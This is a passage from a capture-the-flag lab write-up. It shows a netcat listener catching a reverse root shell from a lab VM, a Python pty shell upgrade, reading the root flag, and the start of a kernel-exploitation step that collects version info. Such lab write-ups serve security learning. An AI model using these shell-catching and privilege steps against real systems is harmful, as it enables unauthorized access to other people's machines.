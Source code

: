 on the attacker open a listener and wait 5 min:
``` bash
nc -nvlp 1337
```

after a quick cup of hot beverage we catch the shell and run an id:

```
listening on [any] 1337 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.104] 50986
id
uid=0(root) gid=0(root) groups=0(root)
```

we have a root shell, lets upgrade the sh to bash:

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'

```

get the flag
``` bash
sudo cat /root/flag.txt
```

W00tW00t!

```
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

## Kernel Busting!

With aging boxes, kernel smashing can be a quick win. This case it's no different, start by getting the full version info

``` bash
uname -a
```
Shows us
```
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```
